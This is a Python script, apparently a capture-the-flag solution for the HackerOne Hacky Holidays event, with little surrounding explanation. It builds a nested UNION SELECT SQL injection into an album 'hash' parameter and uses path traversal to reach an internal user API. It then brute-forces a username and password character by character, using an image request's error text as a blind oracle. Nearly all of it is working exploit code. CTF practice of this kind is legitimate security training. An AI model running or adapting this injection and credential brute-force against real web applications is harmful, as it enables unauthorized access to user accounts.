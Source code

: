 
## flag11-bf.py
```python
import requests
from bs4 import BeautifulSoup
import base64
import string

charset = string.ascii_lowercase + string.digits

base_url ="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=a' UNION SELECT \"2' UNION SELECT 1,1,'{}' --+-\",1,1--+-"

def get_username():
    username = ""
    while True:
        found_char_previous_run = False
        for char in charset:
            test_string = username + char
            path = "../api/user?username={}%25".format(test_string)
            url = base_url.format(path)
            if is_invalid_content_type(url):
                username += char 
                print(char, flush=True, end='')
                found_char_previous_run = True
                break
        
        if not found_char_previous_run:
            break
    return username

def get_password(username):
    password = ""
    while True:
        found_char_previous_run = False
        for char in charset:
            test_string = password + char
            path = "../api/user?username={}%26password={}%25".format(username, test_string)
            url = base_url.format(path)
            if is_invalid_content_type(url):
                password += char 
                print(char, flush=True, end='')
                found_char_previous_run = True
                break
        
        if not found_char_previous_run:
            break
    return password



def is_invalid_content_type(url):
    response = requests.get(url) 
    soup = BeautifulSoup(response.text, 'html.parser')
    all_img = soup.find_all(class_="img-responsive")
    interesting_image_src = all_img[1]['src']

    image_url = "https://hackyholidays.h1ctf.com{}".format(interesting_image_src)
    image_resp = requests.get(image_url)
    if image_resp.text == "Invalid content type detected":
        return True
    else:
        return False
```
